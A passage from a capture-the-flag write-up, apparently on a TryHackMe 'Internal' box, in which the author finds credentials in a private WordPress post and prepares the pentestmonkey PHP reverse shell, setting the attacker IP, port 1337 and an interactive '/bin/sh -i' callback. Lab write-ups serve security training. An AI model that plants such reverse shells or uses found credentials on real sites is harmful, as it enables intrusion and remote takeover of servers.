 First I looked at the posts section and found a private one:

![internal-privatepost](/assets/images/2021-03-02-22-43-01.png)

If we edit the post we see some credentials:

![internal-creds](/assets/images/2021-03-02-22-43-48.png)

I'm not sure where to use these at the moment, so make a note for later.

The [HackTricks](https://book.hacktricks.xyz/pentesting/pentesting-web/wordpress) site has lots of good information on techniques for exploiting WordPress sites. [This](https://book.hacktricks.xyz/pentesting/pentesting-web/wordpress#panel-rce) section explains how to change a file in the default theme to a reverse shell, which we can use to connect back to us.

On Kali we already have several shells available, let's copy the pentestmonkey one to our current directory and change to the correct IP and port:

```text
root@kali:/home/kali/thm/internal# cp /usr/share/webshells/php/php-reverse-shell.php .

root@kali:/home/kali/thm/internal# ifconfig tun0
tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.8.165.116  netmask 255.255.0.0  destination 10.8.165.116
        inet6 fe80::b00e:3b56:b96d:a314  prefixlen 64  scopeid 0x20<link>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 500  (UNSPEC)
        RX packets 521  bytes 248703 (242.8 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 691  bytes 86673 (84.6 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:/home/kali/thm/internal# nano php-reverse-shell.php 
```

Edit the file and chnage IP and port as needed:

```text
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.8.165.116';  // CHANGE THIS
$port = 1337;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```